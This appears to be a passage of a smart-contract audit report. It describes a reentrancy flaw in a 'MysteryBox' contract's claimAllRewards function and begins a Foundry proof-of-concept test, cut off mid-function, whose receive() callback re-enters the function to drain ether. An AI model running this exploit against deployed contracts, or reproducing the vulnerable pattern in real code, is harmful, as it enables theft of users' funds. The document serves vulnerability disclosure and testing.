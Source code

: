 ## Vulnerability Details

Function affected:

```javascript
  function claimAllRewards() public {
        uint256 totalValue = 0;
        for (uint256 i = 0; i < rewardsOwned[msg.sender].length; i++) {
            totalValue += rewardsOwned[msg.sender][i].value;
        }
        require(totalValue > 0, "No rewards to claim");

        (bool success,) = payable(msg.sender).call{value: totalValue}("");
        require(success, "Transfer failed");

        delete rewardsOwned[msg.sender];
    }
```

This vulnerability occurs because the function allows external calls (i.e., to the attacker's contract) before updating the contract’s state. As a result, an attacker can reenter the function within the same transaction, leading to multiple withdrawals and depleting the contract's funds.

The core issue is that the function does not adhere to the "Checks-Effects-Interactions" pattern and is missing a reentrancy guard, which allows the attacker's fallback function to repeatedly execute the vulnerable function.

## POC

* Copy the code to a new test file: `MysteryBox/test/ReentrancyExploit.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/MysteryBox.sol";

contract ReentrancyExploit is Test {
    MysteryBox public mysteryBox;
    address public attacker = address(0xBAD);

    receive() external payable {
        console.log("Fallback called");
        console.log("Contract Balance: %d", address(mysteryBox).balance);
        console.log("Attacker Balance: %d", address(attacker).balance);

        // Checking if the mysteryBox has sufficient funds and then reentering
        if (address(mysteryBox).balance >= 0.5 ether) {
            console.log("Reentering claimAllRewards");
            mysteryBox.claimAllRewards();
        }
    }

    function setUp() public {
        // Initialize with a higher contract balance to avoid running out of funds
        mysteryBox = new MysteryBox{value: 3 ether}();
        vm.deal(attacker, 1 ether);
    }

    function testExploit() public {
        vm.startPrank(attacker);

        mysteryBox.buyBox{value: 0.1 ether}();
```